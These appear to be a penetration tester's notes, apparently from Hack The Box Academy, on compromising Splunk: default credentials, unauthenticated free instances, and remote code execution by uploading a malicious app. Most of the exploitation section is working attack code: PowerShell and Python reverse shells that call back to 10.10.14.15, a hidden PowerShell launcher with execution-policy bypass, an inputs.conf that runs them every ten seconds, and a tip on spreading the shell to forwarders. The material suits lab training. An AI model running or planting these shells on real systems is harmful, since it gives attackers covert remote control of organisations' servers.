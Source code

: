 ### Footprinting + Enumeration
The Splunk web server runs by default on `port 8000`. On older versions of Splunk, the default credentials are `admin:changeme`, which are conveniently displayed on the login page.
![image](https://academy.hackthebox.com/storage/modules/113/changme.png)

**The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication**. It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about. **This will automatically convert to the free version that does not have any form of authentication**, introducing a security hole in the environment. Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.

Once logged in to Splunk (or having accessed an instance of Splunk Free), we can browse data, run reports, create dashboards, install applications from the Splunkbase library, and install custom applications.
![](https://academy.hackthebox.com/storage/modules/113/splunk_home.png)
### Exploitation
#### Password Spraying
```bash
changeme
admin
Welcome
Welcome1
Password123
```

#### RCE
###### Metasploit
```bash
use exploit/multi/http/splunk_upload_app_exec
```
###### Manual
Create malicious app - Folder Structure
```bash
adot8@htb[/htb$ tree splunk_shell/

splunk_shell/
├── bin
└── default
```
The **bin** directory will contain the reverse shell/scripts we want to run. The **defaults** directory will host our `inputs.conf file`

Make `run.ps1` (Windows)
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

Make `rev.py` (Linux)
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')

```

Make `run.bat` to call r`ev.ps1`
```powershell
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

Create tarball or `.spl`
```shell
tar -cvzf updater.tar.gz splunk_shell/
```

Setup listener

`Apps` -> `Manage Apps` -> `Install app from file` -> `Upload`

> [!NOTE] Note
>  If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.

